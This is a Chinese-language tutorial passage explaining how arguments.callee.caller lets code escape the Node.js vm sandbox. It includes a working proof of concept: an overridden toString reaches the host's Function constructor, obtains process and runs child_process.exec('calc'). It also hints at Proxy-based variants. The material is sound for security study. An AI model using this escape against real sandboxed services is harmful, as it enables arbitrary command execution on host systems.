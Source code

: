 `arguments.callee`是`arguments`对象的一个成员，它的值为"正被执行的Function对象"

```javascript
function foo() {
    console.log(arguments.callee);//[Function: foo]
}
foo();
```

`caller`是函数的调用者

```javascript
function foo() {
    console.log(arguments.callee.caller);//[Function (anonymous)]
}
foo();
```

如

```javascript
function foo() {
    child()
}

function child() {
    console.log(arguments.callee.caller);
}
foo() //[Function: foo]
```

获取的就是child的调用者foo

我们在沙箱内定义一个函数，在沙箱外访问，那么`arguments.callee.caller`就获得一个沙箱外的对象

```javascript
const vm = require('vm');
const func =
    `(() => {
    const a = {}
    a.toString = function () {
      const cc = arguments.callee.caller;
      const p = (cc.constructor.constructor('return process'))();
      return p.mainModule.require('child_process').exec('calc').toString()
    }
    return a
  })()`;

const sandbox = Object.create(null);
const context = new vm.createContext(sandbox);
const res = vm.runInContext(func, context);
console.log("" + res);
```

在func里重写了`toString`方法，`console.log("" + res);`利用字符串拼接触重写后的`toString`方法

如果我们无法通过字符串的操作来触发toString()，而且无法进行重写一些函数，可以利用`Proxy`来劫持属性
